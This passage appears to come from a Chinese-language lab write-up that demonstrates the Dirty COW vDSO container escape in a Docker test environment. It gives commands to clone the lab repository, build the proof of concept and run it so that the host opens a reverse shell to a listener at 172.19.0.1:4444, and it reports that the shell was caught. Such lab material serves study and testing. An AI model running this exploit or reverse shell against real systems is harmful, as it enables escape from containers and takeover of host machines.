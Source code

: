 |     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```bash<br>git clone https://github.com/gebl/dirtycow-docker-vdso.git<br>cd dirtycow-docker-vdso/<br>sudo docker-compose run dirtycow /bin/bash<br>``` |

\*\*漏洞利用：\*\*进入容器，编译 POC 并执行

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```bash<br>cd /dirtycow-vdso/<br>make<br>./0xdeadbeef 172.19.0.1:4444<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210203160116.png-water_print](assets/1699410763-b8f5d2df4ec8c7a1f847889bbafe3cc1.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210203160116.png-water_print")

在 172.19.0.1 监听本地端口，成功接收到宿主机反弹的 shell。
